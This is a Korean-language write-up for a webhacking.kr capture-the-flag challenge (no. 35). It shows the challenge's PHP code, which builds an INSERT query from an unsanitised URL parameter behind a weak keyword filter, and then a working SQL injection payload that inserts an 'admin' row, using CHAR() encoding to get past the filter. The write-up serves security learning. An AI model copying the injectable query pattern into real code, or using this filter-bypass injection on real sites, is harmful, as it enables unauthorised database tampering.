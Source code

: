 # 35

## 문제

URL 파라미터로 받은 `phone` 값을 DB에 넣고, 만약 `id`가 `admin`이면 문제가 풀린다. 그냥 페이지에 나온대로 입력란에 숫자 입력만 하면 `id`값은 현재 내가 접속해 있는 `id`값으로 들어가게 된다.

```php
<?
if($_GET[phone])
{
if(eregi("%|\*|/|=|from|select|x|-|#|\(\(",$_GET[phone])) exit("no hack");

@mysql_query("insert into challenge35_list(id,ip,phone) values('$_SESSION[id]','$_SERVER[REMOTE_ADDR]',$_GET[phone])") or die("query error");
echo("Done<br>");
}

$admin_ck=mysql_fetch_array(mysql_query("select ip from challenge35_list where id='admin' and ip='$_SERVER[REMOTE_ADDR]'"));

if($admin_ck[ip]==$_SERVER[REMOTE_ADDR])
{
@solve();
@mysql_query("delete from challenge35_list");
}
$phone_list=@mysql_query("select * from challenge35_list where ip='$_SERVER[REMOTE_ADDR]'");

echo("<!--");
while($d=@mysql_fetch_array($phone_list))
{
echo("$d[id] - $d[phone]\n");
}
echo("-->");
?>
```

## 풀이

```php
mysql_query("insert into challenge35_list(id,ip,phone) values('$_SESSION[id]','$_SERVER[REMOTE_ADDR]',$_GET[phone])") or die("query error");
```

이 `insert`문에서 SQL 인젝션을 발생시킬수 있다. 그냥 `)`치고 옆에 삽입할 레코드를 하나 더 써주면 된다. 한 줄에 여러 레코드를 삽입하는 방법은 [여기](https://stackoverflow.com/questions/6889065/inserting-multiple-rows-in-mysql)를 참고하자.

여기서 내가 오랫동안 붙잡고 늘어진건 쿼리 오류이다. 계속 맞게 쿼리를 하는 것 같은데 자꾸 오류가 나서 머리를 계속 긁고 있었는데, 생각해보니 URL 파라미터로 `'admin'`과 같이 Quote를 넣는 문자열을 인식이 되지 않는걸 깨달았다. 아직도 왜인지 잘은 모르지만 일단 다른 문제를 풀면서도 그래왔으니 이 문자열을 예쁘게 만들어 주면 된다.

내가 만든 [cheatsheet](https://gist.github.com/cxbt/854c213178bc1b0456c2efe657e069c9)를 보면 SQL에서 다른 방식으로 문자열을 쓸수 있는 방법이 있는데

- `0xblahblah`
- `CHAR(45, 45, 45, 45)`

이렇게 있다. 일단 이 문제에서는 `x`가 필터링 되었으니 `CHAR`함수를 써서 문자열을 만들어주도록 하겠다.

```
webhacking.kr/challenge/web/web-17/index.php?phone=100),(CHAR(97,100,109,105,110),CHAR(49,50,50,46,49,57,57,46,49,57,57,46,55,48),70
```

요러케 하면 `$_GET[phone]`에 저 이상한 문자열이 들어가면서 쿼리문이 아래처럼 만들어지게 된다.

```
insert into challenge35_list(id,ip,phone) values('$_SESSION[id]','$_SERVER[REMOTE_ADDR]',$_GET[phone])

->

insert into challenge35_list(id,ip,phone) values('$_SESSION[id]','$_SERVER[REMOTE_ADDR]',100),(CHAR(97,100,109,105,110),CHAR(49,50,50,46,49,57,57,46,49,57,57,46,55,48),70)
```